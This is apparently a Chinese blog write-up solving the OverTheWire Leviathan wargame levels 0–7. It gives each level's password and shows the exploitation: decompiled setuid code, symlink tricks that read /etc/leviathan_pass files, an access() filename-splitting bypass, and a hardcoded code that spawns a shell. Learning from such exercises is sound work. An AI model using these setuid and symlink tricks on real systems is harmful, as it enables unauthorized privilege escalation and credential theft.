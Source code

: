 ```yaml
---
title: wargames刷题[Leviathan]
date: 2022-09-07 10:10:00 +0800
categories: [CTF, Exercise]
tags: [ctf, basic, wargames]     # TAG names should always be lowercase
---
```


# leviathan0

隐藏文件夹，ls -al就能看到bookmark.html。在里面搜索password即可，做题的时候没想到关键词是password。

>PPIfmI1qsA

# leviathan1

32位程序验证密码，objdump简单看了下程序中明文存储了密码sex

>mEh5PNl10e

# leviathan2

access函数检查用户对某文件的权限，程序中先用access判断后才执行/bin/cat。这样的方式存在绕过技术，大致的原理与空格相关

测试一下就可以知道argv不会截断'\ '，access会连带空格当成文件名，而snprintf生成的/bin.cat命令会按空格隔开
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
    printf("argc: %d\n", argc);
    for(int i = 0; i < argc; i++) {
        printf("access: %d\t", access(argv[i], 0));
        printf("argv: %s\n", argv[i]);
    }
    return 0;
}
```
```console
root@HeFeng:~/workplace# ./main tes\ t
argc: 2
access: 0       argv: ./main
access: 0       argv: tes t
```


```console
leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/backdoor
leviathan2@gibson:~$ touch /tmp/"backdoor passwd"
leviathan2@gibson:~$ ./printfile /tmp/backdoor\ passwd
Q0G8j4sakn
/bin/cat: passwd: No such file or directory
```

```c
if ( access(argv[1], 4) )
    {
      puts("You cant have that file...");
      return 1;
    }
else
    {
      snprintf(s, 0x1FFu, "/bin/cat %s", v6[1]);
      v4 = geteuid();
      v5 = geteuid();
      setreuid(v5, v4);
      system(s);
      return 0;
    }
```

>Q0G8j4sakn

# leviathan3

跟level1一样明文比较，没什么含金量

>AgvropI4OA

# leviathan4

用二进制形式直接输出了password，没啥好说的直接还原

```python
>>>for i in s:
...     print(chr(int(i, 2)), end='')
```

```console
leviathan4@gibson:~$ ./.trash/bin
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010
```

```c
stream = fopen("/etc/leviathan_pass/leviathan5", "r");
  if ( !stream )
    return -1;
  fgets(buf, 256, stream);
  for ( i = 0; strlen(buf) > i; ++i )
  {
    v4 = *(_BYTE *)(i + 134529120);
    for ( j = 0; j <= 7; ++j )
    {
      if ( v4 >= 0 )
        putchar(48);
      else
        putchar(49);
      v4 *= 2;
    }
    putchar(32);
  }
  putchar(10);
```

>EKKlTF1Xqs

# leviathan5

直接软链接输出file.log即可，一开始一直关注unlink被带跑了。

```c
stream = fopen("/tmp/file.log", "r");
  if ( !stream )
  {
    puts("Cannot find /tmp/file.log");
    exit(-1);
  }
  while ( 1 )
  {
    v5 = fgetc(stream);
    if ( feof(stream) )
      break;
    putchar(v5);
  }
  fclose(stream);
  v3 = getuid();
  setuid(v3);
  unlink("/tmp/file.log");
```

```console
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5
YZ55XPVk2l
```

>YZ55XPVk2l

# leviathan6

直接提权，没有任何难度。

```c
if ( argc != 2 )
  {
    printf("usage: %s <4 digit code>\n", *argv);
    exit(-1);
  }
  if ( atoi(argv[1]) == 7123 )
  {
    v3 = geteuid();
    v4 = geteuid();
    setreuid(v4, v3);
    system("/bin/sh");
  }
  else
  {
    puts("Wrong");
  }
  return 0;
```

>8GpZ5f8Hze

# leviathan7

通关

```console
leviathan7@gibson:~$ cat CONGRATULATIONS
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```